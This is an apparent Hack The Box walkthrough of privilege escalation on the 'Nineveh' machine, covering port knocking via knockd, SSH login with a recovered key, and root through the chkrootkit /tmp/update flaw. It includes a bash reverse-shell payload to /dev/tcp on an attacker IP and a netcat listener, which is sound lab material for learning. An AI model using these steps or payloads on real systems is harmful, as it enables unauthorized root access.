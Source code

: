 # Privilege Escalation

## amrois

- We can now run linpeas.sh, and we can see that ssh is locally listening but our nmap scan from [[Nineveh/05 - Enumeration#Nmap]] didn't give us an open port.
- Checking /etc we can see a knockd configuration, which is a tool for port knocking.
```bash
www-data@nineveh:/var/www/html/department$ cat /etc/knockd.conf 
[options]
 logfile = /var/log/knockd.log
 interface = ens160

[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

```
- So we can use nmap for this from our local machine.
```bash
sudo nmap -Pn -p 571,290,911 -sT --max-retries 0 10.10.10.43
[sudo] password for norman: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 04:23 EDT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up.

PORT    STATE    SERVICE
290/tcp filtered unknown
571/tcp filtered umeter
911/tcp filtered xact-backup

Nmap done: 1 IP address (1 host up) scanned in 1.10 seconds

```
- We can run nmap again against ssh and see it is open
```bash
sudo nmap -Pn -p 22 --max-retries 0 10.10.10.43             
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 04:24 EDT
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up (0.18s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds

```
- We also had an image in secure_notes directory under the https://10.10.10.43.
- It was an image. We can run strings on the image to find private and public ssh keys for amrois present.
- We can login as amrois using the private key
```bash
ssh -i nineveh amrois@10.10.10.43                                                                                 
                                          130 ↵                                                                       
The authenticity of host '10.10.10.43 (10.10.10.43)' can't be established.                                            
ECDSA key fingerprint is SHA256:aWXPsULnr55BcRUl/zX0n4gfJy5fg29KkuvnADFyMvk.                                          
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                              
Warning: Permanently added '10.10.10.43' (ECDSA) to the list of known hosts.
Ubuntu 16.04.2 LTS                                         
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Mon Jul  3 00:19:59 2017 from 192.168.0.14
amrois@nineveh:~$ ls
```
- Cat out the user.txt

## root
- Run linpeas again, and we can see that /reports is present in the root directoru, which shouldn't be, and reports are being generated every minute.
- (Saw this part in ippsec's video) Create a script which can detect commands being run, thus giving us the information that /usr/bin/chkrootkit is being run by root.
- Checking for it searchsploit 
```text

...[snip]...
Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.

If an attacker knows you are periodically running chkrootkit (like in
cron.daily) and has write access to /tmp (not mounted noexec), he may
easily take advantage of this.


Suggested fix: Put quotation marks around the assignment.
...[snip]...

```
- So we can just create a file called update in /tmp. 
- Edit the file to put a reverse shell code in it.
```bash
amrois@nineveh:/tmp$ cat update
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.5/9003 0>&1'

```
- `chmod +x update`
- Open a listener on the local machine, we will get a connection from root in the next minute mark.
```bash
╭─norman@kali ~/Hack-The-Box/machines/nineveh/ssh ‹main*› 
╰─$ nc -lnvp 9003                                                                                                 1 ↵
listening on [any] 9003 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.43] 57406
bash: cannot set terminal process group (6090): Inappropriate ioctl for device
bash: no job control in this shell
root@nineveh:~# python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@nineveh:~# ^Z
```